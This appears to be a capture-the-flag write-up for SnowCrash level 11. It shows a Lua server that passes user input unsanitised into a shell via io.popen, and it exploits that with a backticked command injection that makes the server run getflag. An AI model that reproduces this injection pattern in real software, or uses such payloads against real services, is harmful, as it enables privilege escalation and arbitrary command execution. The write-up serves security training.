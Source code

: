 ```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile

level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?

level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

It seems that level11.lua creates a server on localhost:5151 and a client that expects password. This password is later hashed with `echo`. So that is our way in. But first a little experimentation:
```
level11@SnowCrash:~$ nc localhost 5151
Password: fkjhf
Erf nope..

level11@SnowCrash:~$ nc localhost 5151
Password: f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
Erf nope..
```
If we reverse sha1sum with [decoder](https://www.dcode.fr/sha1-hash) we get this line:
*NotSoEasy*
```
level11@SnowCrash:~$ nc localhost 5151
Password: NotSoEasy
Erf nope..
```
But it also doesn't work.

Time to exploit `echo`:
```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /tmp/lvl11`
Erf nope..

level11@SnowCrash:~$ ls -la /tmp/lvl11
-rw-r--r-- 1 flag11 flag11 58 Sep 21 21:18 /tmp/lvl11

level11@SnowCrash:~$ cat /tmp/lvl11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
